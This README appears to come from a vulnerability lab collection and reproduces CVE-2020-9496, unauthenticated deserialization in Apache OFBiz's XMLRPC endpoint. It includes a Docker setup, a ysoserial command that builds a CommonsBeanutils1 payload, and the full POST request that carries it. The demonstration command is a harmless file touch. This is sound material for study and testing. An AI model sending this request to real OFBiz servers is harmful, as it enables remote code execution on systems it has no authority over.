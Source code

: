 # Unsafe deserialization of XMLRPC arguments in ApacheOfBiz (CVE-2020-9496)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

OfBiz exposes an XMLRPC endpoint at `/webtools/control/xmlrpc`. This is an unauthenticated endpoint since authentication is applied on a per-service basis. However, the XMLRPC request is processed before authentication. As part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands on any OfBiz server with same privileges as the servlet container running OfBiz.

References:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## Vulnerable environment

Executing following command to start an Apache OfBiz (17.12.01):

```
docker-compose up -d
```

After a short wait, you can see the login page at `https://your-ip/myportal/control/main`.

## Vulnerability Reproduce

There is no error message in response by default, we can't reproduce the vulnerability using the POC of [reference link 2](https://github.com/dwisiswant0/CVE-2020-9496), so ask [ysoserial](https://github.com/frohoff/ysoserial) for help.

Generate the CommonsBeanutils1 payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

Replace the `[base64-payload]` and send the request:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` is succesful executing in the container:

![](3.png)
